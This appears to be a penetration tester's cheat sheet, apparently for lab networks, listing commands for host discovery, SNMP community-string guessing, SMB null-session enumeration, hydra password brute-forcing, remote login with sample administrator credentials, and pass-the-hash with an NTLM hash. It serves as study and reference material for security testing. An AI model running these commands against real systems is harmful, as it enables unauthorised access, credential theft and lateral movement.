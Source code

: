 ### Alive hosts
`netdiscover -i tap0 -r 10.10.10.0/24`
`arp-scan -I tap0 10.10.10.0/24`

### SNMP
- Commin snmp community strings 
	-	onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 10.10.10.20 
	-	[seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/SNMP/common-snmp-community-strings.txt)
	-	common strings : `public` `private` 
- onesistyone `onesixtyone -c ./common-snmp-community-strings.txt 10.10.10.5`
- snmpwalk `snmpwalk -v 1 -c public 10.10.10.20`
- snmpenum.pl [http://dl.packetstormsecurity.net/UNIX/scanners/snmpenum.zip](http://dl.packetstormsecurity.net/UNIX/scanners/snmpenum.zip)
	- `perl snmpenum.pl 10.10.10.5 public windows.txt` (windows.txt in zip)

### SMB
- Bruteforce
	-	`hydra -L users.txt -P /usr/share/john/password.lst 10.10.10.20 smb -f -V`
- Netbios (TCP 139 | UDP 137 138)
	- [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brws/0c773bdd-78e2-4d8b-8b3d-b7506849847b?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brws/0c773bdd-78e2-4d8b-8b3d-b7506849847b?redirectedfrom=MSDN) 
	- Netbios can give us Hostname, Netbios name, Domain, Network Shares
	- UNC (Universal Naming Convention) paths `\\ServerName\ShareName\file.txt`
- Default administrative shares - `C$` C drive|`admin$` Windows installation|`ipc$` interprocess communication
- Null sessions 
	- `net view IP` `nmblookup -A ip` `smbclient -L //IP -N` `net use \\IP\C$ '' /u: ''` `smbclient //IP/$C -N` 
	- `enum -S IP` `enum -U IP` `enum -P IP`
	- `smbmap -H IP`

### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
